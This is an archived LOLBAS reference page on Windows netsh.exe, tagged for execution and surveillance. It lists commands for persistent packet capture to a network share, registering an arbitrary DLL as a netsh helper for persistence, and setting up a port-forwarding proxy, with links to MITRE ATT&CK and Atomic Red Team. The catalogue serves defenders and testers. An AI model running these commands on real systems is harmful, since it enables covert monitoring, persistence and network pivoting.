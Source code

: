 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Netsh.exe

* Functions: Execute, Surveillance

```
netsh trace start capture=yes filemode=append persistent=yes tracefile=\\server\share\file.etl    
netsh trace show status    
    
netsh.exe add helper C:\Path\file.dll	
     
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8000 connectaddress=192.168.1.1
```

Acknowledgements:
* 

Code sample:
* 

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Persistence/Netsh_Helper_DLL.md
* https://attack.mitre.org/wiki/Technique/T1128
* https://twitter.com/teemuluotio/status/990532938952527873

Full path:
```
c:\windows\system32\netsh.exe
c:\windows\sysWOW64\netsh.exe
```

Notes:



Detection:


 
